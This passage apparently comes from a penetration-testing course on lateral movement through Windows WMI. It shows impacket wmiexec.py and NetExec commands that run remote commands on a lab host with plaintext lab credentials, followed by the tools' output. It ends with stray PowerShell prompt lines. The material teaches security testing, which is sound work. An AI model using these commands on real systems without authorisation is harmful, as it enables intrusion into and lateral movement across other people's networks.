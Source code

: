 Additionally, `impacket` includes the built-in script [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) for executing commands using WMI. Keep in mind that `wmiexec.py` uses port 445 to retreive the output of the command and if port 445 is blocked, it won't work. If we want to omit the output, we can use the options `-silentcommand` or `-nooutput`:

```shell
wmiexec.py inlanefreight/helen:[email protected] whoami
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra

[-] [Errno Connection error (172.20.0.52:445)] timed out

```

```shell
wmiexec.py inlanefreight/helen:[email protected] whoami -nooutput
Impacket v0.12.0.dev1+20240523.75507.15eff88 - Copyright 2023 Fortra

```

Alternatively, we can use NetExec to run WMI queries or execute commands using WMI. To perform a query we can use the option `--wmi <QUERY>`:

```shell
proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 --wmi "SELECT * FROM Win32_OperatingSystem"
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            Caption => Microsoft Windows Server 2019 Standard
WMI         172.20.0.52  135    SRV02            Description =>
WMI         172.20.0.52  135    SRV02            Name => Microsoft Windows Server 2019 Standard|C:\Windows|\Device\Harddisk0\Partition4
WMI         172.20.0.52  135    SRV02            Status => OK
WMI         172.20.0.52  135    SRV02            CSCreationClassName => Win32_ComputerSystem
...SNIP...

```

To execute commands we can use the protocol `wmi` with the option `-x <COMMAND>`. Unlike impacket `wmiexec.py`, netexec can retrieve the output using WMI rather than SMB:

```shell
proxychains4 -q netexec wmi 172.20.0.52 -u helen -p RedRiot88 -x whoami
RPC         172.20.0.52  135    SRV02            [*] Windows 10 / Server 2019 Build 17763 (name:SRV02) (domain:inlanefreight.local)
WMI         172.20.0.52  135    SRV02            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
WMI         172.20.0.52  135    SRV02            [+] Executed command: "whoami" via wmiexec
WMI         172.20.0.52  135    SRV02            inlanefreight\helen

```

## Conclusion

WMI is a powerful tool for lateral movement, offering the ability to query and manage Windows systems remotely from both Windows and Linux environments. Understanding how to use and abuse WMI effectively can significantly enhance your lateral movement capabilities. In the next section, we will explore WinRM, another essential method for remote management and lateral movement in Windows environments.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>